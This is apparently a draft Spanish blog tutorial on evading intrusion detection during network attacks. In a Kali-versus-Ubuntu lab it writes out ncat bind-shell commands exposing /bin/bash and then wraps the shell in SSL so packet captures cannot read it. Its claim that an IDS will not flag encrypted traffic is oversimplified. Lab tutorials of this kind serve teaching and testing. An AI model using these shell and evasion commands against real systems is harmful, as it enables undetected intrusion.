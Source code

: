 ```yaml
---
title: Atacar redes empresariales y saltar a los sistemas de detección de intrusos(IDS)
author: nik0
date: 2020-11-26 16:38:00 +0800
categories: [Ciberseguridad]
tags: [IDS,Pentesting]
---
```


## Introducción

En las redes empresariales es muy común ver IDS, IPS y NGFW entre otros tipos de sistemas que reconocen patrones inusuales de conductas no autorizadas, analizan paquetes de red, examinan el tráfico y los puertos, etc.

Por eso cuando queremos hacer una intrusión a un sistema, es muy importante que estos sistemas no detecten lo que hacemos, ya que de lo contrario nos bloquearían la conexión al servidor víctima y no podriamos concluir con lo que queremos hacer.

## Montando el laboratorio

Primero, voy a tener 2 máquinas activas, la primera va a ser Kali (Atacante) y la segunda va a ser una máquina de Ubuntu (Victima), en Ubuntu voy a tener instalado Wireshark para poder capturar los paquetes TCP y poder diferenciar entre una conexión encriptada y otra que no lo está.

## Utilizando Ncat

Vamos a abrir una terminal y ejecutar el comando ```ncat -nlvp 1337 -e /bin/bash``` "n" significa no hay host vinculante, "l" es que para poner a la escucha, "v" para que sea más "detallado" o verboso y "p" significa el puerto a la escucha ```-e /bin/bash``` significa que vamos a tener un entorno en bash, presionamos enter y tiene que estar tal cual en la foto:

(poner foto aki)

luego desde Kali(atacante) nos vamos a conectar a Ubuntu(Víctima), para ello utlizamos el comando ```ncat -nv 172.16.211.131 1337``` ponemos la ip de Ubuntu y el puerto que está a la escucha, presionamos enter y deberia aparecernos así:

(poner foto aki)

## Configurando Wireshark

Antes de ponernos a escribir comandos etc, vamos a poner a Wireshark a seguir los paquetes de red TCP, en mi caso sería la interfaz "ens33" si se deja el cursor un rato ahi, nos muestra la ip de la máquina en este caso la de Kali, lo presionamos 2 veces y ya se puso a la escucha

(poner foto aki)

Ahora si podemos escribir comandos en la consola, podemos hacer un pwd o lo que se nos ocurra:

(poner foto aki)

luego si nos vamos a Wireshark, vemos que está capturando tráfico, vamos a ver que nos puede mostrar Wireshark, lo que hacemos es clickear un paquete de red, click derecho, nos vamos a follow y después TCP stream, nos debería aparecer algo así:

(poner foto aki)

y podemos ver que la conexión no está encriptada por lo tanto un IDS te lo puede detectar fácilmente.

## Encriptando conexión con Ncat

Ahora lo que vamos a hacer es encriptar nuestra conexión para así poder hacer un bypass al IDS, matamos todos los procesos que teníamos antes, el procedimiento es el mismo solo que ahora los comandos cambian.

Vamos a escribir en la consola de Ubuntu ```ncat --exec /bin/bash -vnl 1233 --ssl``` y en la de Kali ```ncat -nv 172.16.211.131 1233 --ssl``` ponemos a Wireshark a capturar tráfico de red y esto es lo que nos sale:

(poner foto aki)

Nos vamos a Wireshark, mismo procedimiento y nos tendría que salir así:

(poner foto aki)

Esto para un IDS, no le hace sentido por lo tanto no lo va a considerar cómo actividad sospechosa o intrusión ;)




